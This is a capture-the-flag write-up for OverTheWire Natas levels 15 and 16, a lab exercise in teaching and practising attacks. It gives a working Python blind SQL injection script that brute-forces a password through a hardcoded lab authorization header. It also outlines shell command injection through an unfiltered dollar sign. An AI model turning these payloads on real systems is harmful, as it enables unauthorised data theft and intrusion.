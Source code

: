 ### [Natas 15]
`http://natas15.natas.labs.overthewire.org` \
This challenge is a trickier version of SQL injection, because it is blind. This means that to get the information that we need we have to extrapolate it from other data. \
In this case, we have to build the password char by char, using a query `like natas16" and password like binary 'x%'`.\
We know that the 'password' column exists thanks to the comment in the source code, and with the 'LIKE' command we will get an answer only when the letters are correct (the % is a regex for 'doesn't matter what follows'). \
We will use the Intruder from Burp, and start a sniper attack where we use our query with x as all the letters of the alphabet, both small and capital (we can distinguish thanks to the BINARY instruction), and numbers. \
To identify the proper letter we check the length of the response. When we know the first letter, we move on changing the query as in `natas16" and password like 'Ax%'`. We will have to repeat this 32 times to get the entire flag: a python script comes in handy. The authorization and the other data comes from a request intercepted with Burp, copied as curl and translated to python by a service like cURL to Python

```python
import requests

letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==',
}

pwd = ''
for i in range(0,32):
    for l in letters:
        data = 'username=natas16" and password like binary "' + pwd + l + '%"; #'
        response = requests.post('http://natas15.natas.labs.overthewire.org', headers=headers, data=data)
        if 'exists' in response.text:
            pwd += l
            continue

print(pwd)
```

### [Natas 16]
`http://natas16.natas.labs.overthewire.org` \
We look back at challenges 09 and 10, but this time we are even more restricted in the characters that we are allowed to use. Interestingly, the dollar character is not filtered, and this allows us to executed some commands. What we will do is similar to the last challenge: a blind grep. \
We first look for a string that only returns one word, like 'doomed'. And then we append a grep command that will check if the password starts with the letter(s) that we are looking up in that iteration. If the letter sequence is right, than the result of the search will be empty; if the letter sequence is wrong, then we will be returned 'doomed'.

